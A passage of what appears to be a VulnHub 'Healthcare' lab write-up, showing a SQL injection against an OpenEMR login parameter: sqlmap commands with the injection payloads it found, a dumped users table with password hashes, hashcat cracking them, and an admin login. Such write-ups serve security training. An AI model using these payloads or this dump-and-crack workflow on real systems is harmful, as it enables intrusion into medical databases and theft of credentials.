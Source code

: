 		[+] Finding number of users...
		[+] Found number of users: 2
		[+] Extracting username and password hash...
		admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
		medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
		```
4. Alternative exploit, SQLMap
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/exploit]
	└─# sqlmap -r sqli.txt -p 'u' -D openemr -T users -C username,password --dump --output-dir=$(pwd)/sqlmap

	Parameter: u (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: u=test' OR NOT 9146=9146#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: u=test' AND (SELECT 5508 FROM(SELECT COUNT(*),CONCAT(0x7176626271,(SELECT (ELT(5508=5508,1))),0x7162787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OUIQ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: u=test' AND (SELECT 1257 FROM (SELECT(SLEEP(5)))UvXP)-- cwnE


	Database: openemr
	Table: users
	[2 entries]
	+----------+------------------------------------------+
	| username | password                                 |
	+----------+------------------------------------------+
	| admin    | 3863efef9ee2bfbc51ecdca359c6302bed1389e8 |
	| medical  | ab24aed5a7c4ad45615cd7e0da816eea39e4895d |
	+----------+------------------------------------------+

	[15:01:52] [INFO] table 'openemr.users' dumped to CSV file '/root/vulnHub/Healthcare/192.168.110.8/exploit/sqlmap/192.168.110.8/dump/openemr/users.csv'
	[15:01:52] [INFO] fetched data logged to text files under '/root/vulnHub/Healthcare/192.168.110.8/exploit/sqlmap/192.168.110.8'

	[*] ending @ 15:01:52 /2022-02-02/
	```
5. Crack hash
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/exploit]
	└─# hashcat -a 0 -m 100 hashes /usr/share/wordlists/rockyou.txt --show
	3863efef9ee2bfbc51ecdca359c6302bed1389e8:ackbar
	ab24aed5a7c4ad45615cd7e0da816eea39e4895d:medical
	```
6. Login w/ admin:ackbar
